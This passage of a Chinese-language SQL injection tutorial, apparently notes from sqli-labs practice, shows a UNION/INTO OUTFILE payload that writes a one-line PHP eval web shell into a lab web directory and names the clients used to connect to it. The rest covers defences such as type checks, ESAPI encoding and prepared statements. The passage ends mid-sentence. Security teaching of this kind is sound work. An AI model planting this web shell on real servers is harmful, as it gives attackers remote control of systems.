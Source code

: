 写入一句话木马，<?php @eval($_POST['x']);?> 使用中国菜刀/中国蚁剑连接。

```sql
-1')) union select 1,"<?php@eval($_POST['x']); ?>",3 into outfile "C:\\phpStudy\\WWW\\sqli-labs\\Less-7\\4.php" -- +
```

%20代表空格，%27代表单引号 谷歌和360等可以转换编码，火狐不会

# 六、防御

## 检查数据类型

检查输入数据的数据类型，在很大程度上可以对抗SQL注入。

settype($offset,'integer');

$query="SELECT id,name FROM products ORDER BY name LIMIT 20 OFFSET $offset;";

或者

$query=sprintf("SELECT id,name FROM products ORDER BY name LIMIT 20 OFFSET %d;",$offset);

还有：is_numeric() , ctype_digit()

5.使用安全函数

OWASP ESAPI中的实现：

ESAPI.encoder().encodeForSQL(new OracleCodec(),queryparam);

在使用时，

Codec ORACLE_CODEC = new OracleCodec();

String query = "SELECT user_id FROM user_data WHERE user_name = '" + ESAPI.encoder().encodeForSQL(ORACLE_CODEC,req.getParameter("userID")) + "' and user_password = '" + ESAPI.encoder().encodeForSQL(ORACLE_CODEC,req.getParameter("pwd")) + "'";

：https://blog.csdn.net/hitwangpeng/article/details/45534787

## 预编译

采用sql语句预编译和绑定变量，是防御sql注入的最佳方法

```php
String sql = "select id, no from user where id=?";

PreparedStatement ps = conn.prepareStatement(sql);

ps.setInt(**1**, id);

ps.executeQuery();
```

如上所示，就是典型的采用 sql 语句预编译和绑定变量 。为什么这样就可以防止sql 注入呢？

其原因就是：

